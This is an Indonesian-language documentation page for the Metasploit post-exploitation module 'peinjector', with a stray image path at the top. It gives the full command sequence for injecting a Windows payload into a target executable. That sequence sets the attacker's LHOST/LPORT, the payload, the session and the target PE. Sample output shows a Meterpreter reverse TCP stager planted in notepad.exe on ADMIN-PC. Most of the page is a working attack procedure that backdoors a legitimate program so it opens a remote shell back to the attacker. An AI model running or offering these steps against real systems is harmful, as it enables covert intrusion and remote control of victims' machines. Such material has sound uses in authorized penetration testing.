 # peinjector

Modul ini akan menyuntikkan payload Windows yang ditentukan ke dalam eksekutabel target.

## Penulis
- Maximiliano Tedesco maxitedesco1@gmail.com

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use post/windows/manage/peinjector
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set TARGETPE <PATH_EXECUTABLE>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager into the executable C:\\Users\\Public\\Downloads\\notepad.exe
[+] Successfully injected payload into the executable: C:\\Users\\Public\\Downloads\\notepad.exe
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/manage/peinjector/)
